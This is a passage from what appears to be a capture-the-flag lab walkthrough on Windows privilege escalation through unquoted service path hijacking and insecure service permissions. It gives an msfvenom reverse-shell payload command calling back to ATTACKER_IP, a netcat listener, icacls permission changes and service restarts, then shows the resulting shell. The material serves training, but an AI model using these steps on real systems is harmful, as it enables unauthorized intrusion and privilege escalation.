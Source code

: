 `Successfully processed 1 files; Failed processing 0 files`

The `BUILTIN\\Users` group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.\
The process of creating an exe-service payload with msfvenom and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before. We will also start a listener to receive the reverse shell when it gets executed:\
Kali Linux\
`user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe`

`user@attackerpc$ nc -lvp 4446`

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:\
Command Prompt\
`C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe`

`C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F`\
`Successfully processed 1 files.`

Once the service gets restarted, your payload should execute:\
Command Prompt\
`C:\> sc stop "disk sorter enterprise"`\
`C:\> sc start "disk sorter enterprise"`

As a result, you'll get a reverse shell with svcusr2 privileges:\
Kali Linux\
`user@attackerpc$ nc -lvp 4446`\
`Listening on 0.0.0.0 4446`\
`Connection received on 10.10.175.90 50650`\
`Microsoft Windows [Version 10.0.17763.1821]`\
`(c) 2018 Microsoft Corporation. All rights reserved.`

`C:\Windows\system32>whoami`\
`wprivesc1\svcusr2`

Go to svcusr2 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

### Insecure Service Permissions

You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.\
To check for a service DACL from the command line, you can use [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite. For your convenience, a copy is available at `C:\\tools`. The command to check for the thmservice service DACL is:\
Command Prompt\
`C:\tools\AccessChk> accesschk64.exe -qlc thmservice`\
`[0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM`\
`SERVICE_QUERY_STATUS`\
`SERVICE_QUERY_CONFIG`\
`SERVICE_INTERROGATE`\
`SERVICE_ENUMERATE_DEPENDENTS`\
`SERVICE_PAUSE_CONTINUE`\
`SERVICE_START`\
`SERVICE_STOP`\
`SERVICE_USER_DEFINED_CONTROL`\
`READ_CONTROL`\
`[4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users`\
`SERVICE_ALL_ACCESS`
